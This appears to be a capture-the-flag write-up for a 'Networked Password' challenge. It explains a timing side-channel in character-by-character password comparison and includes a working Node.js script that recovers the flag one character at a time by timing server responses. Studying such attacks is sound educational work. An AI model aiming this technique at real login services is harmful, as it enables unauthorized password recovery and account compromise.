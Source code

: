# Networked Password

Basically, this is a timing attack. When you compare two strings, you can compare character-by-character. 

The instant you find that a character doesn't match, you return and stop comparing. This means that the more characters match, the longer it will take.

The issue is that this allows us to bruteforce one character at a time, instead of the entire password at a time. This decreases the amount of tries we have to make significantly.

Here's the script:
```
const request=require("request")

let str="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-!@#$%^&*()}"

let te="hsctf{sm0";
let don=[];
function req(te,ch,cb)
{
    request.post({time:true,url:"https://networked-password.web.chal.hsctf.com/",form:{password:te+str.charAt(ch)}},function(e,res,body){
        //console.log(ch+" "+String.fromCharCode(ch)+" "+res.timingPhases.download);
        don[ch]=res.timingPhases.firstByte;
//        console.log(don[ch])
    })
}

let ch=0;
while(ch<str.length)
{
 req(te,ch++)
}

setInterval(function(){
    let biggest=1;
    let second=1;
    for(let i=0;i<don.length;i++)
        if(don[i]>don[biggest]) biggest=i;
        else if(don[i]>don[second]) second=i;

    console.log(str.charAt(biggest)+" "+don[biggest])
    console.log(str.charAt(second)+" "+don[second])
    console.log(don[biggest]-don[second])

    te+=str.charAt(biggest);
    ch=0;
    while(ch<str.length)
    {
         req(te,ch++)
    }
    console.log(te)

},10000)```

don't judge the script, I just needed something that worked
